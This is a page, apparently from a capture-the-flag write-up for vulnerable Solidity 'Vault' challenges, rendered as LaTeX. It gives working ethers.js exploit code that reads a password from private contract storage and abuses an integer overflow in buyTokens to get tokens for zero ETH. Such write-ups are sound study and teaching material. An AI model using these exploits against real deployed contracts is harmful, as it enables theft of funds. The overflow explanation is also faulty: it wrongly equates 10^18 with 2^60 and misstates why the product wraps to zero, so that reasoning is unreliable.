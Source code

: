 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Read the storage value at slot 4
slotValue = await ethers.provider.getStorage(vaultAddress, 4);

// Decode the password from the storage value
const tagHex = slotValue.slice(-2);
const tag = parseInt(tagHex, 16);
const length = tag / 2;
const actualDataHex = "0x" + slotValue.slice(2, 2 + length * 2);
const actualPassword = ethers.toUtf8String(actualDataHex);

// Hash the password and address
const hashedPassword = ethers.solidityPackedKeccak256(
    ["string", "address"], 
    [actualPassword, playerAddress]
);

// Call breachVault with the derived hashed password
const tx = await vault.breachVault(hashedPassword);
await tx.wait();
\end{verbatim}
\end{minipage}

\subsection*{Vault08: Tokens for Free}

To breach \texttt{Vault08}, you need to exploit an integer overflow vulnerability in the \texttt{buyTokens} function. Since the contract uses Solidity 0.7.6, which lacks built-in protection against overflow, you can find a value for \texttt{numTokens} that causes \texttt{numTokens * TOKEN\_PRICE} to overflow to exactly 0. This allows you to purchase tokens without paying any ETH.

To achieve this, use a value for \texttt{numTokens} that, when multiplied by 1 ether ($10^{18}$), overflows and wraps around to exactly 0 in a uint256. A perfect value for this is $2^{238}$, since $2^{238} \times 10^{18} = 2^{238} \times 2^{60} \approx 2^{298}$, which exceeds the maximum uint256 value ($2^{256} - 1$) and wraps around to 0.

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Connect to the vault contract as the player
const playerVault = vault.connect(player);

// Calculate the token amount that will cause an overflow
// 2^238 is chosen because when multiplied by 1 ether (10^18), 
// it will overflow exactly to 0 in Solidity 0.7.6
const numTokens = BigInt(1) << BigInt(238);

// Call buyTokens with 0 ether value
// Due to integer overflow, numTokens * TOKEN_PRICE will be 0
await playerVault.buyTokens(numTokens, { value: 0 });

// Verify that we received the tokens
const playerBalance = await vault.tokenBalances(playerAddress);
console.log("Player token balance:", playerBalance.toString());

// Call breachVault to complete the challenge
await playerVault.breachVault();
\end{verbatim}
\end{minipage}
\end{document}
